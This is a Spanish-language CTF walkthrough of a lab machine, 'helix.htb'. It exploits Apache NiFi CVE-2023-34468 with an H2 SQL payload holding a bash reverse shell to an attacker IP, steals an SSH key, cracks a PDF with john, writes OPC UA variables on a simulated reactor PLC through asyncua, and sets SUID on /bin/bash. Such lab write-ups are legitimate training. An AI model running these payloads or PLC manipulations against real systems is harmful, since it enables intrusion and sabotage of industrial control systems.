




Resumen de Explotación
Resumen del proceso: La máquina objetivo exponía un servidor web nginx en el puerto 80 que redirigía al dominio helix.htb. Mediante fuzzing de virtual hosts, se descubrió el subdominio flow.helix.htb, donde se ejecutaba Apache NiFi 1.21.0, una herramienta de automatización de flujos de datos. Esta versión es vulnerable a CVE-2023-34468, que permite ejecución remota de código a través de un procesador SQL configurado con el driver H2, cargando un script SQL malicioso con código Java embebido que envía una reverse shell.
Tras obtener acceso como el usuario nifi, se encontró una clave SSH de respaldo del usuario operator en los directorios de NiFi. Con acceso como operator, se descubrió un PDF protegido con contraseña que contenía documentación sobre una ventana de mantenimiento privilegiada. Crackeando la contraseña del PDF con john, se obtuvo la información necesaria para activar dicha ventana.
La escalada final a root requirió manipular un servidor OPC UA que controlaba un PLC simulado de un reactor nuclear. Usando la librería asyncua de Python, se modificaron las variables del PLC para activar la ventana de mantenimiento, lo que permitió ejecutar un script bash con privilegios de root mediante sudo. Se aprovechó esta shell temporal para asignar el bit SUID a /bin/bash y conseguir acceso root permanente.
Tecnologías/Exploits: Apache NiFi RCE (CVE-2023-34468), driver H2 con SQL injection para RCE, OPC UA (protocolo industrial), manipulación de PLC para escalada de privilegios, cracking de PDF con john.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos abiertos y servicios que se ejecutan en la máquina objetivo:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 60:b3:f7:6c:0b:92:ab:00:ac:e7:12:e1:d1:26:9c:1e (ECDSA)
|_ 256 c8:30:e6:cb:c6:cd:fc:0c:39:e5:34:04:20:07:b9:b3 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://helix.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelEl escaneo revela dos puertos abiertos: SSH en el puerto 22 y un servidor web nginx 1.18.0 en el puerto 80. El servidor web redirige a http://helix.htb/, lo que indica que utiliza virtual hosting. Añado helix.htb a mi fichero /etc/hosts para poder resolver el dominio.
Enumeración Web
La web del puerto 80 es una landing page corporativa de "Helix Industries" sobre automatización industrial e infraestructura crítica, sin funcionalidades interesantes a simple vista:
whatweb http://helix.htb
# http://helix.htb [200 OK] Country[RESERVED][ZZ], Email[name@company.com],
# HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)],
# IP[10.129.42.228], Script,
# Title[Helix Industries | Industrial Automation & Critical Infrastructure],
# nginx[1.18.0]Dado que la página principal no ofrece mucho, sospecho que puede haber virtual hosts adicionales. Fuzzeo subdominios y encuentro uno interesante:
flow.helix.htb Status: 200 [Size: 1068]Apache NiFi - flow.helix.htb
Tras añadir flow.helix.htb al fichero /etc/hosts y acceder al subdominio, encuentro una instancia de Apache NiFi:

Apache NiFi es una herramienta de automatización de flujos de datos, similar a n8n pero especializada en análisis de datos tipo big data y procesamiento en tiempo real. Permite crear pipelines de datos de forma visual arrastrando y conectando procesadores.
Investigación de Vulnerabilidades - CVE-2023-34468
Buscando por la versión específica de NiFi, descubro que existe una vulnerabilidad de RCE (Remote Code Execution) catalogada como CVE-2023-34468. Encuentro unas instrucciones detalladas en PDF explicando el exploit paso a paso: https://github.com/mbadanoiu/CVE-2023-34468/blob/main/Apache%20NiFi%20-%20CVE-2023-34468.pdf
La vulnerabilidad reside en la capacidad de NiFi para ejecutar procesadores SQL con drivers JDBC personalizados. Utilizando el driver H2, es posible ejecutar código Java arbitrario a través de sentencias SQL especialmente diseñadas.
Acceso Inicial - Explotando CVE-2023-34468
Sigo los pasos indicados en el PDF y configuro un nodo de procesamiento SQL con un driver H2 específico para conseguir RCE. El setup final consiste en un procesador SQL que, al ejecutarse, realiza una petición HTTP a mi máquina para obtener un script SQL malicioso:

El script SQL que sirvo desde mi máquina contiene código Java embebido que utiliza la funcionalidad CREATE ALIAS de H2 para ejecutar comandos del sistema:
CREATE ALIAS IF NOT EXISTS SHELLEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
String[] command = {"bash", "-c", cmd};
java.util.Scanner s = new java.util.Scanner(
Runtime.getRuntime().exec(command).getInputStream()
).useDelimiter("\\\\A");
return s.hasNext() ? s.next() : "";
}
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.142/443 0>&1');Este script crea una función SQL personalizada llamada SHELLEXEC que ejecuta comandos del sistema operativo mediante Runtime.getRuntime().exec(). Al invocarla con CALL, se ejecuta una reverse shell bash que conecta de vuelta a mi máquina atacante.
Con esto consigo enviar una reverse shell y ganar acceso como el usuario nifi, que es un usuario de servicio similar a www-data, utilizado para ejecutar el proceso de Apache NiFi.
Enumeración Interna
Una vez dentro de la máquina, investigo los puertos que escuchan localmente:
tcp LISTEN 0 128 127.0.0.1:8081 0.0.0.0:*
tcp LISTEN 0 50 127.0.0.1:8080 0.0.0.0:*
tcp LISTEN 0 50 127.0.0.1:38913 0.0.0.0:*
tcp LISTEN 0 100 127.0.0.1:4840Reviso el fichero /etc/passwd para identificar los usuarios del sistema:
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
operator:x:1001:1001::/home/operator:/bin/bash
nifi:x:998:998::/opt/nifi:/usr/sbin/nologin
plc:x:997:997::/opt/ot:/usr/sbin/nologinObservo que root ejecuta un binario llamado helix-safety que no puedo inspeccionar directamente:
root 1633 1.1 0.0 2992 1048 ? Ss /opt/helix/bin/helix-safetyEl directorio /opt/helix tiene permisos restringidos al grupo helixsvc:
drwxr-x--- 9 root helixsvc 4.0K May 5 10:18 helixCon pspy64 detecto que los usuarios www-data y plc ejecutan binarios adicionales del ecosistema Helix:
CMD: UID=997 PID=1676 | /opt/helix/bin/helix-plc
CMD: UID=33 PID=1677 | /opt/helix/bin/helix-hmiTambién encuentro un binario interesante que solo puede ser leído y ejecutado por el usuario operator y root:
nifi@helix:/tmp$ find / -group operator 2>/dev/null
/home/operator
/usr/local/sbin/helix-maint-console
-rwxr-x--- 1 root operator 932 Jan 25 19:12 /usr/local/sbin/helix-maint-consoleServicio Web Interno - Puerto 8081
Accediendo al puerto 8081 mediante port forwarding, encuentro una aplicación web Flask que actúa como panel de control del sistema Helix:

Este panel muestra información relevante sobre el sistema. Me llaman la atención dos cosas: la mención de una ventana de mantenimiento privilegiada y la referencia al protocolo OPC UA interno:
OPC UA (internal): opc.tcp://127.0.0.1:4840/helix/Investigando OPC UA
Investigando sobre OPC UA con el protocolo opc.tcp y el puerto 4840, descubro que se trata de OPC Unified Architecture, un protocolo estándar usado en IoT industrial para automatización de PLCs, sistemas SCADA y otros equipos industriales. El puerto 4840 es el puerto oficial por defecto para OPC UA y utiliza el protocolo binario opc.tcp por eficiencia.
Con la librería de Python asyncua y unos scripts rápidos, investigo el puerto 4840 y descubro que se trata de un sistema de control de un reactor nuclear simulado. La estructura de nodos del servidor OPC UA revela lo siguiente:
[Object] Plant (ns=2;i=1)
[Object] Reactor (ns=2;i=2)
[Variable] TemperatureRaw (ns=2;i=3)
[Variable] Temperature (ns=2;i=4)
[Variable] Pressure (ns=2;i=5)
[Variable] CalibrationOffset (ns=2;i=6)
[Object] Safety (ns=2;i=7)
[Variable] RodsInserted (ns=2;i=8)
[Variable] EmergencyCooling (ns=2;i=9)
[Variable] TripActive (ns=2;i=10)
[Object] Control (ns=2;i=11)
[Variable] Mode (ns=2;i=12)
[Variable] TestOverride (ns=2;i=13)
[Variable] ResetTrip (ns=2;i=14)Y puedo leer los valores actuales del sistema:
=======================================================
Helix Plant Status
=======================================================
[ Reactor ]
TemperatureRaw 283.999
Temperature 283.999
Pressure 68.999
CalibrationOffset (rw) 0.0
[ Safety ]
RodsInserted False
EmergencyCooling False
TripActive False
[ Control ]
Mode (rw) NORMAL
TestOverride (rw) False
ResetTrip (rw) FalseNoto que algunas variables son de lectura y escritura (rw), como CalibrationOffset, Mode, TestOverride y ResetTrip. Esto será importante más adelante, pero por el momento no encuentro cómo aprovechar directamente esta información.
Movimiento Lateral - De nifi a operator
Investigando los directorios de NiFi, encuentro una clave SSH de respaldo del usuario operator en un directorio de bundles de soporte:
nifi@helix:/opt/nifi-1.21.0$ ls -lah support-bundles/
total 12K
drwxr-x--- 2 nifi nifi 4.0K May 5 10:18 .
drwxrwxr-x 16 nifi nifi 4.0K May 5 10:18 ..
-rw-r----- 1 nifi nifi 411 Jan 25 13:15 operator_id_ed25519.bakMe transfiero la clave privada a mi máquina y con ella consigo acceso SSH como el usuario operator, obteniendo así la flag de usuario.
Escalada de Privilegios
Enumeración como operator
Dentro del directorio home de operator encuentro dos archivos interesantes. El primero es una imagen del sistema de control del reactor:

El segundo es un PDF llamado "Operator Control & Safety Guide" que está protegido por contraseña. Extraigo el hash con pdf2john y utilizo john para hacer fuerza bruta:
pdf2john "Operator Control & Safety Guide.pdf" > pdf.hash
john pdf.hash --wordlist=/usr/share/wordlists/rockyou.txt
# Using default input encoding: UTF-8
# Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
# Cost 1 (revision) is 6 for all loaded hashes
# Will run 6 OpenMP threads
# operator1 (Operator Control & Safety Guide.pdf)
john pdf.hash --show
# Operator Control & Safety Guide.pdf:operator1La contraseña del PDF es operator1.
Contenido del PDF - Ventana de Mantenimiento
El documento contiene guías generales de seguridad y explicaciones del sistema. La parte más interesante para la escalada de privilegios es la sección sobre la ventana de mantenimiento:
"7. Maintenance Operating Window
The PLC defines a maintenance operating window where certain diagnostic tools become available. This window opens when:
• Temperature reaches approximately 295°C OR Pressure 73 bar
• Pressure & Temp remains below trip thresholds
• No safety trip is active
This window exists below trip limits but above normal operating conditions. The window is intentionally narrow to ensure maintenance actions are time-limited and closely monitored."
Privilegios sudo de operator
Compruebo los privilegios sudo del usuario operator:
operator@helix:~$ sudo -l
# User operator may run the following commands on helix:
# (root) NOPASSWD: /usr/local/sbin/helix-maint-consoleDe primeras no parece funcionar, ya que la ventana de mantenimiento está cerrada:
operator@helix:~$ sudo helix-maint-console
Maintenance window CLOSED.Análisis del script helix-maint-console
Al ser un script bash, puedo leer su contenido y entender su funcionamiento:
#!/bin/bash
set -euo pipefail
FLAG="/opt/helix/state/maintenance_window"
read_until() { cat "$FLAG" 2>/dev/null || true; }
window_ok() {
[ -f "$FLAG" ] || return 1
local until_ts now
until_ts="$(read_until)"
now="$(date +%s)"
[[ "$until_ts" =~ ^[0-9]+$ ]] || return 1
[ "$now" -lt "$until_ts" ] || return 1
return 0
}
if ! window_ok; then
echo "Maintenance window CLOSED."
exit 1
fi
until_ts="$(read_until)"
now="$(date +%s)"
remaining=$((until_ts-now))
echo "[+] Privileged maintenance access granted"
echo "[!] Window expires in ${remaining} seconds"
echo "[!] Session will be terminated automatically"
SCOPE="helix-maint-$$"
systemd-run --quiet --scope --unit="$SCOPE" \
--property=KillMode=control-group \
--property=SendSIGHUP=yes \
/bin/bash -p -i
exit 0El script verifica si existe el fichero /opt/helix/state/maintenance_window y si contiene un timestamp futuro. Si la ventana está activa, lanza una shell interactiva con privilegios de root mediante systemd-run. La shell es temporal y se cerrará automáticamente cuando expire la ventana.
La web en el puerto 8081 confirma esta información y muestra el estado actual de la ventana de mantenimiento:
"Privileged Maintenance Window — Status: CLOSED
No maintenance window file present.
This window is granted by the safety controller only when a hazardous test condition is detected (e.g., Temp ≥ 295°C or Pressure ≥ 73 bar) while still below trip."
Plan de ataque
Si consigo que la ventana de mantenimiento se active y se cree el archivo /opt/helix/state/maintenance_window, podré obtener acceso temporal como root con el comando sudo /usr/local/sbin/helix-maint-console. Entonces solo necesitaré asignar el bit SUID a /bin/bash para hacer que este acceso sea permanente.
Recordando la información del servidor OPC UA, las variables del reactor muestran que la temperatura actual es de ~284°C y necesito que llegue a ~295°C. La variable CalibrationOffset es de lectura/escritura y me permite ajustar el valor de temperatura sin cambiar la lectura real del sensor.
Manipulación del PLC vía OPC UA
Para conseguir que se active la ventana de mantenimiento, utilizo un script Python con la librería asyncua para interactuar con el PLC. El script activa el modo de mantenimiento, habilita TestOverride para permitir los cambios, y aumenta la temperatura mediante la variable CalibrationOffset:
import asyncio
from asyncua import Client, ua
URL = "opc.tcp://127.0.0.1:4840/helix/"
async def write(client, node_id, value, label):
node = client.get_node(node_id)
dv = await node.read_data_value()
vtype = dv.Value.VariantType
await node.write_value(ua.DataValue(ua.Variant(value, vtype)))
print(f" [+] {label} = {value!r}")
async def main():
async with Client(url=URL) as client:
await write(client, "ns=2;i=12", "MAINTENANCE", "Mode")
await write(client, "ns=2;i=13", True, "TestOverride")
await write(client, "ns=2;i=6", 14.1, "CalibrationOffset")
asyncio.run(main())El script modifica tres variables clave: cambia el Mode a MAINTENANCE, habilita TestOverride para permitir cambios en las condiciones de operación, y establece un CalibrationOffset de 14.1 que sumado a la temperatura base de ~284°C supera el umbral de 295°C requerido para activar la ventana.
De esta manera consigo que se active la ventana de mantenimiento:

Obteniendo acceso root
Ahora que el archivo de mantenimiento está creado y la ventana está activa, puedo obtener acceso root temporal a través del script helix-maint-console. Aprovecho esta ventana para asignar el bit SUID a /bin/bash y hacer el acceso permanente:
operator@helix:~$ sudo /usr/local/sbin/helix-maint-console
[+] Privileged maintenance access granted
[!] Window expires in 116 seconds
[!] Session will be terminated automatically
root@helix:/home/operator# chmod u+s /bin/bash
root@helix:/home/operator# exit
exit
operator@helix:~$ bash -p
bash-5.1# whoami
rootCon el bit SUID establecido en /bin/bash, puedo obtener una shell de root en cualquier momento ejecutando bash -p, consiguiendo así privilegios totales sobre el sistema y la flag de root.